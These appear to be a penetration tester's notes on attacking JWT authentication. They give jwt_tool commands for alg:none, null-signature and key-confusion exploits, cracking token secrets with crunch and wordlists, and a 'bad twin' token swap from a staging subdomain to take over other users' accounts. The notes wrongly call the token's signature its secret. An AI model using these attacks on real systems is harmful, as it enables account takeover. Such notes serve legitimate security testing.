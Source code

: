 Example token:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

The first part is the algorith header, the second part is the payload data and the third is the secret SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c


1. First step:
- Intercept the request that has the authentication token
- Send it to sequencer
- LOcate the cookie
- Click on analyze now
- See if there is any predictability to see if the token can be manipulated due to randomness being not so random

2. JWT attacks:

                                                          Scanning jwt authentication requests:
                                                          jwt_tool -t http://target-name.com/ -rh "Authorization: Bearer JWT_Token" -M pb
    
2.1 Manipulation tests:
- jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c -x a

 -X EXPLOIT, --exploit EXPLOIT
                        eXploit known vulnerabilities:
                        a = alg:none
                        n = null signature
                        b = blank password accepted in signature
                        s = spoof JWKS (specify JWKS URL with -ju, or set in jwtconf.ini to automate this attack)
                        k = key confusion (specify public key with -pk)
                        i = inject inline JWKS

2.2 Cracking the JWT token:
  2.2.1 Generate a wordlist:
. /crunch <min-len> <max-len> [charset] --> https://github.com/jim3ma/crunch

e.g: ./crunch 3 7 abcdef

This example will compute all passwords between 3 and 7 chars using 'abcdef' as the character set and dump it to stdout.

Or use a dictionary for attack:
Wordlist https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list

jwt_tool TOKEN -C -d /home/zabiol/Desktop/ctf/tools/wordlists/jwt/jwt_secret.txt

2.3 The bad twin attack:
  - Register on the main application
  - Decode the token if it is jwt
  - See if it contains any unique identifier and note it
  - Scan for subdomain that has the same login page like the main application
  - Register there with the same username and password used on the main application and note the token
  - Replace the main webb app token with the token from the staging app above
  - See if you get access to anybody elses account.

  
